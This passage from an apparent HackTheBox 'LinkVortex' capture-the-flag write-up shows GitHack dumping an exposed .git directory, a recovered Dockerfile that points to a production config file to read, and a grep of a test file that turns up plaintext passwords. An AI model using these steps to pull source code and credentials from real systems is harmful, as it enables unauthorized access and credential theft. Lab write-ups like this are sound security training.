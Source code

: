Use [`GitHack`](https://github.com/lijiejie/GitHack/blob/master/GitHack.py) to get the files:

```zsh
❯ python GitHack.py -u "http://dev.linkvortex.htb/.git/"
```

This system is deployed on docker:

```zsh
❯ tree
.
├── Dockerfile.ghost
└── ghost
    └── core
        └── test
            └── regression
                └── api
                    └── admin
                        └── authentication.test.js

7 directories, 2 files
```

Get the info:

One thing to note here is if we have access or read permissions to the file in the system: `/var/lib/ghost/config.production.json`

```zsh
❯ cat Dockerfile.ghost
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]

```

Search for password in remaining file:

```zsh
❯ cat ghost/core/test/regression/api/admin/authentication.test.js | grep 'passw*'
            const password = 'OctopiFociPilfer45';
                        password,
            await agent.loginAs(email, password);
                        password: 'thisissupersafe',
                        password: 'thisissupersafe',
            const password = 'thisissupersafe';
                        password,
            await cleanAgent.loginAs(email, password);
                        password: 'lel123456',
                        password: '12345678910',
                        password: '12345678910',
        it('reset password', async function () {
                password: ownerUser.get('password')
            await agent.put('authentication/password_reset')
                    password_reset: [{
```